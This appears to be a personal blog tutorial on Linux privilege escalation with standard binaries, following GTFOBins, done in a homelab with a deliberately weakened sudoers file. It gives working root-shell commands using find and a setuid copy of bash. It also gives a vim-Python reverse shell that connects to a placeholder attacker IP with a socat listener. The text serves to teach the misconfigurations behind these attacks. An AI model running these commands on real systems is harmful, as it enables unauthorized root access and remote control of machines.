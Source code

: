 ```yaml
---
title: "Bypassing Local Security with Standard Binaries"
excerpt: A few examples of how one might exploit poorly configured systems using standard Linux programs
date: 2025-09-23
---
```


I recently discovered the website [GTFOBins](https://gtfobins.github.io/) while working on a CTF-challenge. To cite the website:

> The project collects legitimate functions of Unix binaries that can be used to break out of restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.
>
> It is important to note that this is not a list of exploits, and the programs listed here are not vulnerable per se, rather, GTFOBins is a compendium about how to live off the land when you only have certain binaries available.

I toyed around with some common binaries, just to see how easy privilege escalation can be under certain circumstances.

### Setting up a Misconfigured System

In my Kali Linux homelab I started by setting up a new user `dummy` with substantially lower privileges. This is done with `sudo adduser dummy`. I decided to allow this user to run the binaries `find` and `install` with sudo-privileges, as this seems like a somewhat realistic real-world scenario (granted, this should obviously still not occur in privilege-sensitive systems). To do this, we edit (as root) the `sudoers` file with `sudo visudo` and add the following two lines:
```text
dummy ALL=(ALL) NOPASSWD: /usr/bin/find
dummy ALL=(ALL) NOPASSWD: /usr/bin/install
```
As long as `sudoers` contains the line
```text
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
we can now use `sudo find` and `sudo install` without appending `/usr/bin/` every time.

### Escalating with `find`

First, we simulate lower privileges by logging onto the dummy account with `su - dummy` and entering the password. Then the syntax is very straightforward:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo find . -exec /bin/sh \; -quit                                                         
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
In more detail, this is what the snippet does:
1. `find` starts searching in the current directory.
2. `-exec /bin/sh \;` tells `find` to spawn a new shell each time a file is encountered.
3. `-quit` tells `find` to stop spawning shells after the first one.
4. Since we ran the command with `sudo`, it spawns **root** shells, and we have access to the file system.

### Escalating with `install`

The entire "exploit" goes as follows:
```console
┌──(dummy㉿kali)-[~]
└─$ sudo install -m 6777 /bin/bash ~/rootshell
┌──(dummy㉿kali)-[~]
└─$ ~/rootshell -p                                                                             
rootshell-5.2# whoami
root
rootshell-5.2# id
uid=1001(dummy) gid=1001(dummy) euid=0(root) egid=0(root) groups=0(root),100(users),1001(dummy)
```
Here is a breakdown of the above procedure:
1. The idea is to copy the binary `/bin/bash` to the home directory with _setuid_ root permissions.
2. The key part is the `-m 6777`, which sets the setuid bit so it should run as root.
    - `-m` sets the mode of the file. 6777 is an _octal_ representation of those permissions.
    - Each owner/group/others has 7 = 4+2+1 = rwx (read, write, execute), so 777 = full access for everyone.
    - The leading digit being `6xxx` tells us that we're enabling setuid and setgid. Setuid (4xxx) does the following: when you run the file, it executes with the **user ID** of the file’s owner (instead of the one running it). If root owns the file, then the program runs with root privileges. Setgid works similarly, but with the **group ID** instead.
3. We name the copy `rootshell` and save it in `~/`.
4. Lastly, we run the binary with the option `-p`, so it doesn’t drop privileges. This gives us a root shell with access to the file system.

### Reverse Shell Using VIM

The coolest application of privilege escalation I found was through the standard `vim` binary. Usually, I simply think of vim as a simple text-editor and code-writing environment, so it would not have crossed my mind that vim can be leveraged to obtain reverse shells with (potentially) root privileges. The one restriction here is that vim must be compiled with Python support.

On our Kali attacker machine, we set up a listener by running `socat file:`tty`,raw,echo=0 tcp-listen:8787`, where the port 8787 was chosen arbitrarily.

Next, on the target machine, export the variables declaring the host IP and port: 
```text
export RHOST=<Attacker_IP>
export RPORT=8787
```
Finally, run the following command on the target, using vim:
```text
vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")
vim.command(":q!")'
```
This spawns an interactive reverse shell on the attacker machine:
```console
┌──(kali㉿kali)-[~]
└─$ socat file:`tty`,raw,echo=0 tcp-listen:8787 
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```
If the target was root, then the reverse shell has root privileges as well, oherwise it will have the privileges of whatever user was active on the target. Here is a step by step breakdown of the above payload, since it is relatively cluttered:

1. `vim -c '...'`
    - `vim -c` runs an **Ex command** at startup.
    - Here, the command is a `:py` block (Python code executed inside vim).
2. `:py import vim,sys,socket,os,pty; ...`
    - Runs Python code inside vim (if Vim was compiled with Python support).
3. `s=socket.socket()`
    - Creates a TCP socket object in Python.
4. `s.connect((os.getenv("RHOST"), int(os.getenv("RPORT"))))`
    - Connects the socket to the IP (`RHOST`) and port (`RPORT`) defined in environment variables.
    - This is the reverse shell connection: **the system running vim connects back to an attacker's machine.**
5. `[os.dup2(s.fileno(), fd) for fd in (0,1,2)]`
    - Redirects standard input (`0`), standard output (`1`), and standard error (`2`) to the socket.
    - This allows the attacker to interact with the shell remotely.
6. `pty.spawn("/bin/sh")`
    - Spawns a pseudo-terminal running `/bin/sh`.
    - Makes the reverse shell more interactive, behaving like a real terminal.
7. `vim.command(":q!")`
    - Tells vim to quit immediately after launching the reverse shell.
    - Leaves only the shell running, hidden from view.

An important detail is that you need to replace `py` by `py3` if vim is compiled with Python3. To check whether this is the case, run `vim --version | grep python`. If you don't see something like `+python3`, then add this functionality:
```text
sudo apt update
sudo apt install vim-nox
```











